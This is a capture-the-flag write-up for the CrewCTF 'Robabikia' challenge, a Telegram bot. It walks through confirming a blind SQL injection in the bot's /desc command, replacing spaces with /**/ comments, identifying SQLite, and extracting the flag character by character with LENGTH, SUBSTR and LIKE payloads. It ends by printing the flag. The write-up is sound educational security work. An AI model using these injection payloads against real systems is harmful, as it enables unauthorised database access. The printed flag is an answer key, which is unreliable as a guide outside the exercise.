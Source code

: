 ## Robabikia (906 points)

### Description
In 70's my grandfather sold a flag but I think we lost the value of it, can you help us find it? Contact the seller: https://t.me/crewctf_Robabikia_bot

Author: omakmoh#1070

https://t.me/crewctf_Robabikia_bot

### Telegram bot
This challenge starts with messaging the telegram bot:
```
/start
----------------------------------------------------
/items - Return the item list.
/price - Return the price of item.
/desc - Return the description of item.
/value - Return the value of item.
/help or /start - list available commands to use.
Use the command and specifiy the item ID
```
Listing the items:
```
/items 
----------------------------------------------------
1 - Broken Radio
2 - Fridge
3 - Goldstar TV
4 - Plastic Table
5 - Old Ancient FLAG
```
Price:
```
/price 5
----------------------------------------------------
31337$
```
Description:
```
/desc 5
----------------------------------------------------
The old ancient flag your Grandfather want.
```
Value (should be the flag):
```
/value 5
----------------------------------------------------
This feature currently Temporary Disabled
```

### SQL Injection confirmation
Probable SQL Injection:
```
/desc 1'
----------------------------------------------------
Error has been occured
```
Confirmed SQL Injection:
```
/desc 1' OR '
----------------------------------------------------
Radio to listen uninterrupted music, but need to fix
```
More complex queries like this didn't work:
```
/desc 1' OR (SELECT 1) OR '1
----------------------------------------------------
Error has been occured
```

### SQL Injection method discovery
In order to be able to run more complex queries that need SPACES, you can replace them with inline comments `/**/`, so this queries now let us determine DBMS:
```
/desc '/**/OR/**/@@version/**/--
----------------------------------------------------
Error has been occured


/desc '/**/OR/**/sqlite_version()/**/--
----------------------------------------------------
Radio to listen uninterrupted music, but need to fix
```
So, looks like a Blind SQL Injection on `desc` parameter, SQLite back-end.

As the challenge description states - we need to find the value of the flag (item 5). This query confirms we have `value` column in this table
```
/desc '/**/GROUP/**/BY/**/value--
----------------------------------------------------
Item not found
```

Let's find the length of the flag (hopefully):
```
/desc 5'/**/AND/**/LENGTH(value)>35
----------------------------------------------------
The old ancient flag your Grandfather want.

/desc 5'/**/AND/**/LENGTH(value)>50 --
----------------------------------------------------
Item not found


[after few queries...]


/desc 5'/**/AND/**/LENGTH(value)=47 --
----------------------------------------------------
The old ancient flag your Grandfather want.
```

Length of the flag is 47. We can pretty easily confirm, that this indeed is the flag by checking the first characters for the flag format:
```
/desc 5'/**/AND/**/value/**/LIKE/**/'crew%{%}' --
----------------------------------------------------
The old ancient flag your Grandfather want.
```

### Getting the flag
I have tried UNION Selects and spend few hours on trying to find quicker way, but I ended up in just using Blind SQL Injection to dump the flag
```
/desc 5'/**/AND/**/SUBSTR(value,1,1)/**/>/**/'a' --
----------------------------------------------------
The old ancient flag your Grandfather want.

...
...
...
```
It took me approx. 1 hour to dump the 47 (- 6 because of known format) characters long flag using Blind SQL Injection on the Telegram Bot. 

For some reason, I feel satisfied. :D
```
/desc 5'/**/AND/**/value/**/LIKE/**/'crew{U53_fa57_WAY_1n_5QL_1nj3C710N_1N_t3l3_B0t}' --
----------------------------------------------------
The old ancient flag your Grandfather want.
```
